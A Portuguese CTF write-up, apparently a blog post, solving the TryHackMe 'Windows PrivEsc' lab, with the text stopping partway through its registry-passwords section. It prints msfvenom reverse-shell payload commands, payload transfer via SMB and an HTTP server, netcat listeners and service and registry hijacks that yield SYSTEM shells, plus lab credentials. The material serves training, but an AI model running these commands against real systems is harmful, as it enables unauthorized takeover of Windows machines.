







<div class="page"/>

# **Pós-Exploração - Windows PrivEsc | Sonael de A. Angelos Neto**

- ### **Windows Privilege Escalation**

 A escalação de privilégios é um tipo de ataque cibernético em que um invasor tenta obter privilégios administrativos elevados em um sistema comprometido, permitindo-lhe acessar dados confidenciais, instalar malware ou executar outras atividades maliciosas. No Windows, a escalação de privilégios pode ocorrer quando um usuário com privilégios limitados, como um usuário padrão, consegue obter privilégios de administrador.

 Existem várias maneiras pelas quais um invasor pode tentar realizar a escalação de privilégios no Windows, incluindo:

 - **Explorar vulnerabilidades de software:** os invasores podem tentar explorar vulnerabilidades em aplicativos ou serviços em execução no sistema, a fim de obter acesso privilegiado.

 - **Ataques de engenharia social:** os invasores podem usar técnicas de engenharia social para convencer os usuários a fornecer suas credenciais ou executar código malicioso em seus sistemas.

 - **Uso de software malicioso:** os invasores podem instalar malware em um sistema comprometido que lhes permita obter acesso privilegiado.

 Para proteger um sistema contra a escalação de privilégios, é importante adotar práticas de segurança recomendadas, como manter o sistema operacional e os aplicativos atualizados com as últimas correções de segurança, usar senhas fortes e não compartilhar credenciais de usuário, e limitar o acesso privilegiado apenas aos usuários que precisam dele.

 Além disso, o Windows inclui várias ferramentas de segurança que podem ajudar a prevenir a escalação de privilégios, como o Controle de Conta de Usuário (UAC), que solicita permissão do usuário antes de executar tarefas que exigem privilégios elevados, e o recurso de Proteção de Acesso ao Kernel (KPP), que ajuda a proteger o kernel do sistema operacional contra modificações não autorizadas.

---

## **<center>Sumário</center>**

  **Nesse documento iremos resolve a maquina do TryHackMe chamada "Windows PrivEsc".**

  1. #### ***<a href="#1">Deploy the Vulnerable Windows VM.</a>***
  2. #### ***<a href="#2">Generate a Reverse Shell Executable.</a>***
  3. #### ***<a href="#3">Service Exploits - Insecure Service Permissions.</a>***
  4. #### ***<a href="#4">Service Exploits - Unquoted Service Path.</a>***
  5. #### ***<a href="#5">Service Exploits - Weak Registry Permissions.</a>***
  6. #### ***<a href="#6">Service Exploits - Insecure Service Executables.</a>***
  7. #### ***<a href="#7">Registry - AutoRuns.</a>***
  8. #### ***<a href="#8">Registry - AlwaysInstallElevated.</a>***
  9. #### ***<a href="#9">Passwords - Registry.</a>***
  10. #### ***<a href="#10">Passwords - Saved Creds.</a>***
  11. #### ***<a href="#11">Passwords - Security Account Manager (SAM).</a>***
  12. #### ***<a href="#12">Passwords - Passing the Hash.</a>***
  13. #### ***<a href="#13">Scheduled Tasks.</a>***
  14. #### ***<a href="#14">Insecure GUI Apps.</a>***
  15. #### ***<a href="#15">Startup Apps.</a>***
  16. #### ***<a href="#16">Token Impersonation - Rogue Potato.</a>***
  17. #### ***<a href="#17">Token Impersonation - PrintSpoofer.</a>***
  18. #### ***<a href="#18">Privilege Escalation Scripts.</a>***


### **Complementos:**

   19. #### ***<a href="#19">Dificuldades.</a>***
   20. #### ***<a href="#20">Conclusão.</a>***
   21. #### ***<a href="#21">Referências.</a>***
   22. #### ***<a href="#22">Links p/ Laboratório.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [xfreerdp](https://www.freerdp.com/) :
    - Utilizaremos o `xfreerdp` para acessar a máquina.

- #### [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) :
    - Utilizaremos o `MSFVenom` para gerar o payload.

- #### [Python](https://www.python.org/) :
    - Utilizaremos o `Python` para criar o servidor HTTP.

- #### [Netcat](https://nmap.org/ncat/) :
    - Utilizaremos o `Netcat` para ficar escutando a chamada do payload.

- #### accesschk:
    - Utilizaremos o `accesschk` para verificar as permissões de um arquivo.

- #### msiexec:
    - Utilizaremos o `msiexec` para executar um arquivo msi.

- #### winexe :
    - Utilizaremos o `winexe` para executar um comando remoto.

- #### runas :
    - Utilizaremos o `runas` para executar um comando com permissões de administrador.

- #### git:
    - Utilizaremos o `git` para clonar repositórios.

- #### [creddump7](https://github.com/Tib3rius/creddump7)
    -  Utilizaremos o `creddump7` para extrair as senhas do SAM.

- #### [John the Ripper](https://www.openwall.com/john/)
    - Utilizaremos o `John the Ripper` para quebrar as senhas.

- #### pth-winexe
    - Utilizaremos o `pth-winexe` para executar um comando remoto com permissões de administrador.

- #### [rdesktop]( https://www.rdesktop.org/)
    - Utilizaremos o `rdesktop` para acessar a máquina.

- #### cscript
    - Utilizaremos o `cscript` para executar um script em vbs.
  
- #### [socat](http://www.dest-unreach.org/socat/)
    - Utilizaremos o `socat` para criar um servidor TCP.

- #### Rogue Potato
    - Utilizaremos o `Rogue Potato` para obter uma shell com permissões de administrador.

- #### PrintSpoofer
    - Utilizaremos o `PrintSpoofer` para obter uma shell com permissões de administrador.

- #### PSExec64.exe
    - Utilizaremos o `PSExec64.exe` para executar um comando remoto.
---

## **<a id="1"> • Deploy the Vulnerable Windows VM.</a>**

Para começarmos a exploração, precisamos primeiro acessar a maquina alvo, para isso, vamos utilizar o comando `xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.220.211`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           18:51:32
╰──➤ xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.220.211
[18:51:36:719] [2805:2806] [INFO][com.freerdp.crypto] - creating directory /root/.config/freerdp
[18:51:36:719] [2805:2806] [INFO][com.freerdp.crypto] - creating directory [/root/.config/freerdp/certs]
[18:51:36:719] [2805:2806] [INFO][com.freerdp.crypto] - created directory [/root/.config/freerdp/server]
[18:51:41:678] [2805:2806] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[18:51:41:678] [2805:2806] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[18:51:42:144] [2805:2806] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[18:51:42:145] [2805:2806] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[18:51:49:592] [2805:2806] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```

<div class="page"/>

Apos a execução do comando, teremos acesso a maquina alvo, e podemos começar a exploração.



Assim podemos concluir esse topico.

---

## **<a id="2"> • Generate a Reverse Shell Executable.</a>**

Vamos agora criar um executável que irá nos dar acesso a maquina alvo, para isso, vamos utilizar o `msfvenom`. Esse executável irá ser muito importante para alguns dos próximos passos.


```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           19:03:51
╰──➤ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=53 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Onde temos:

- `-p` : Especifica o payload que iremos utilizar.
- `LHOST` : Nosso IP.
- `LPORT` : Porta que iremos utilizar.
- `-f` : Formato do arquivo de saída.
- `-o` : Nome do arquivo de saída.

Agora precisamos transferir esse executável para a maquina alvo, para isso, iremos utilizar um servidor SMB.

vamos utilizar o `smbserver.py` que vem junto com o `impacket`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         19:19:25
╰──➤ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Agora precisamos acessar a maquina alvo e baixar o executável com o comando.

```powershell
copy \\10.18.20.23\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Agora basta executar o payload com o comando `PS C:\PrivEsc> .\reverse.exe` e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           19:24:47
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.220.211] 49861
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\PrivEsc>

```

---

## **<a id="3"> • Service Exploits - Insecure Service Permissions.</a>**

Agora que temos acesso a maquina alvo, vamos explorar uma das vulnerabilidade encontrada no laboratório.

Vamos começar verificando as permissões do nosso usuário através do programa `accesschk.exe`.

```cmd
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

Aqui podemos ver que o usuário `user` tem permissão de `SERVICE_CHANGE_CONFIG`

Agora vamos utilizar o `sc qc daclsvc` para verificar as configurações do serviço.

```cmd
C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Percebemos que o serviço `daclsvc` está configurado para ser executado como `LocalSystem`, isso significa que podemos alterar o binário do serviço para executar um payload que irá nos dar acesso como `SYSTEM`.

Então vamos modificar o binário do serviço para executar o nosso payload.

```cmd
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Dessa forma ao reiniciar o serviço, o payload será executado e teremos acesso como `SYSTEM`.

```cmd
PS C:\PrivEsc> net stop daclsvc
The DACL Service service is stopping.
The DACL Service service was stopped successfully.

PS C:\PrivEsc> net start daclsvc
The service is not responding to the control function.
```

<div class="page"/>

Assim conseguimos acesso como `SYSTEM`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           19:40:59
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.220.211] 49926
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico temos que responder qual o `BINARY_PATH_NAME` do serviço `daclsvc`.



---

## **<a id="4"> • Service Exploits - Unquoted Service Path.</a>**

Agora vamos dar uma olhada no serviço `unquotedsvc`.

```cmd
C:\Windows\system32>sc qc unquotedsvc
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

```

Note que o `BINARY_PATH_NAME` do serviço `unquotedsvc` não está entre aspas, isso significa que o serviço irá tentar executar o arquivo `unquotedpathservice.exe` que está dentro da pasta `Common Files`.

<div class="page"/>

Usando o `accesschk.exe` podemos verificar as permissões do nosso usuário.

```cmd

PS C:\Users\user\Desktop> C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

```

Aqui podemos ver que o usuário `user` tem permissão de escrita na pasta `C:\Program Files\Unquoted Path Service\`, então vamos criar um payload dentro dessa pasta.

```cmd
PS C:\Users\user\Desktop> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Agora vamos reiniciar o serviço `unquotedsvc` com o comando `net start unquotedsvc`  e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:00:37
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49754
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

e para concluir esse tópico temos que responder qual o `BINARY_PATH_NAME` do serviço `unquotedsvc`.



---

<div class="page"/>

## **<a id="5"> • Service Exploits - Weak Registry Permissions.</a>**

Agora vamos dar uma olhada no serviço `regsvc`.

```cmd
C:\Windows\system32>sc qc regsvc
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Podemos ver que o serviço `regsvc` está configurado para ser executado como `LocalSystem`, então vamos verificar as permissões do nosso usuário utilizando o `accesschk.exe`.

```cmd
PS C:\Users\user\Desktop>C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
HKLM\System\CurrentControlSet\Services\regsvc\Security
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS

```

Aqui podemos ver que o usuário `user` tem permissão de escrita na chave `HKLM\System\CurrentControlSet\Services\regsvc`, então vamos alterar-la para executar um payload que irá nos dar acesso como `SYSTEM`.

```cmd
PS C:\Users\user\Desktop> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

Agora vamos reiniciar o serviço `regsvc` com o comando `net start regsvc`  e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:12:07
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49790
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="6"> • Service Exploits - Insecure Service Executables</a>**

Vamos dar uma olhada no serviço `filepermsvc`

```cmd
C:\Windows\system32>sc qc filepermsvc
sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Podemos ver que o serviço `filepermsvc` está configurado para ser executado como `LocalSystem`, então vamos verificar as permissões do nosso usuário utilizando o `accesschk.exe`.

```cmd
C:\Windows\system32>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
```

Aqui podemos ver que o usuário `user` tem permissão de escrita no arquivo `C:\Program Files\File Permissions Service\filepermservice.exe`, então vamos criar um payload dentro desse arquivo.

```cmd
C:\Windows\system32>copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.
```

Agora vamos reiniciar o serviço `filepermsvc` com o comando `net start filepermsvc` e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:18:58
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49811
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
e para concluir esse tópico bastar clicar no botão `Completed`.

---

<div class="page"/>

## **<a id="7"> • Registry - AutoRuns</a>**

Vamos verificar os `Autoruns` da maquina alvo utilizando o comando `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.

```powershell
PS C:\Users\user\Desktop> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Podemos ver que existe um programa chamado `My Program` que está configurado para ser executado no inicio do sistema, então vamos verificar as permissões do nosso usuário utilizando o `accesschk.exe`.

```powershell
PS C:\Users\user\Desktop> C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
                                                                                                  FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
                                                                                                  FILE_ALL_ACCESS
  RW BUILTIN\Administrators
                                                                                                  FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
                                                                                                  FILE_ALL_ACCESS
  RW BUILTIN\Users
                                                                                                  FILE_ALL_ACCESS
```

Aqui podemos ver que o usuário `user` tem permissão de escrita no arquivo `C:\Program Files\Autorun Program\program.exe`, então vamos criar um payload dentro desse arquivo.

```powershell
C:\Windows\system32>copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.

```

Apos reiniciar a maquina alvo usando o comando `rdesktop 10.10.32.183` e logar como `admin:password123` vamos verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:28:50
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49850
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="8"> • Registry - AlwaysInstallElevated</a>**

Vamos verificar os registros para as chaves `AlwaysInstallElevated` utilizando o comando `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`.

```powershell
PS C:\Users\user\Desktop> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\Users\user\Desktop> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Podemos ver que as chaves `AlwaysInstallElevated` estão configuradas para o valor `1`.

Utilizando o `msfvenom` vamos criar um payload para executar um `reverse shell` na maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:41:24
╰──➤ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=53 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

agora vamos enviar o arquivo `reverse.msi` para a maquina alvo utilizando o python.

primeiramente vamos subir um servidor local utilizando o comando `python3 -m http.server 80`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:41:56
╰──➤ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

E na maquina alvo vamos utilizar o comando:

```cmd
PS C:\PrivEsc> wget http://10.18.20.23/reverse.msi -o reverse.msi
```

Agora vamos executar o arquivo `reverse.msi` utilizando o comando `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi` para obter acesso como system.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:48:02
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49946
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="9"> • Passwords - Registry</a>**

Vamos verificar os registros para as chaves `Password` utilizando o comando `reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`.

```powershell
PS C:\PrivEsc> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ
    DefaultUserName    REG_SZ    admin
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
